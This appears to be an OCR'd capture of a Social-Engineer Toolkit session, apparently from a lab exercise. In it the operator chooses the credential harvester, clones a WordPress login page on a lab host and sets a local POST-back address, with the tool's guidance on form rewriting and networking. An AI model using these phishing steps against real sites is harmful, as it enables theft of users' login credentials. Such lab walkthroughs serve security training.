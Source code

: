 ```
   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) HTA Attack Method

  99) Return to Main Menu

set:webattack>3

 The first method will allow SET to import a list of pre-defined web
 applications that it can utilize within the attack.

 The second method will completely clone a website of your choosing
 and allow you to utilize the attack vectors within the completely
 same web application you were attempting to clone.

 The third method allows you to import your own website, note that you
 should only have an index.html when using the import website
 functionality.
   
   1) Web Templates
   2) Site Cloner
   3) Custom Import

  99) Return to Webattack Menu

set:webattack>2
[-] Credential harvester will allow you to utilize the clone capabilities within SET
[-] to harvest credentials or parameters from a website as well as place them into a report

-------------------------------------------------------------------------------
--- * IMPORTANT * READ THIS BEFORE ENTERING IN THE IP ADDRESS * IMPORTANT * ---

The way that this works is by cloning a site and looking for form fields to
rewrite. If the POST fields are not usual methods for posting forms this 
could fail. If it does, you can always save the HTML, rewrite the forms to
be standard forms and use the "IMPORT" feature. Additionally, really 
important:

If you are using an EXTERNAL IP ADDRESS, you need to place the EXTERNAL
IP address below, not your NAT address. Additionally, if you don't know
basic networking concepts, and you have a private IP address, you will
need to do port forwarding to your NAT IP address from your external IP
address. A browser doesns't know how to communicate with a private IP
address, so if you don't specify an external IP address if you are using
this from an external perpective, it will not work. This isn't a SET issue
this is how networking works.

set:webattack> IP address for the POST back in Harvester/Tabnabbing [10.10.245.241]:127.0.0.1
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone:http://repairshop.sbrc/wp-login.php

go to 12.0.0.1:100


[*] Cloning the website: http://repairshop.sbrc/wp-login.php
[*] This could take a little bit...

```